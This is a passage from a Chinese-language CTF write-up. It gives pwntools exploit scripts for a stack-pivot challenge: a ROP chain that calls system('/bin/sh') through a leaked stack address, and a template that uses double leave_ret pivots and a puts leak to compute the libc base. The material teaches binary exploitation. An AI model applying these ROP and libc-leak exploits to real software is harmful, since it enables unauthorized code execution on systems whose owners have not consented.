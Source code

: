 ```plain
def dbg():
   gdb.attach(proc.pidof(p)[0])
   pause()

rdi = 0x00000000004013d3
leave_ret = 0x00000000004012d6

sla('num:\n','286129175')
ru('gift:')
stack = int(p.recv(14),16) 
li(hex(stack))

main = 0x4012D8
back = 0x40129B
read = 0x4012BA
system = 0x4010D4

pl = p64(rdi) + p64(stack+0x18) + p64(system) + b'/bin/sh\x00' + p64(stack-0x8) + p64(leave_ret) 
dbg()
p.sendline(pl)
```

‍

##### og 模板解法：

两次 leave\_ret，构造 read(0,stack-0x20,0x30)，重复的第二次是为了调整 rsp，控制程序流

```plain
pl = b'a'*0x20+p64(stack)+p64(read) #1
p.send(pl)

pl = b'a'*0x20+p64(stack+0x20)+p64(read) #2
p.send(pl)
```

接下来构造一次正常的 rop 链泄露 libc

```plain
pl = p64(stack+0x20+0x10)+p64(rdi)+p64(puts_got)+p64(puts_plt)+p64(main) #3 
p.send(pl)

p.recv()

#libc_base = uu64(r(14))-libc.sym['puts']
libc_base = uu64(r(14))-0xa000000000000 -libc.sym['puts']
li(hex(libc_base))

system= libc_base + libc.sym['system'] 
bin_sh = libc_base + next(libc.search(b'/bin/sh'))
```

这里选择再跳转到 main 函数，接收到新的 stack 地址

```plain
sla('num:\n','286129175')

p.recvuntil('Success!!!\n')
ru('gift:')
stack0 = int(p.recv(14),16)
```
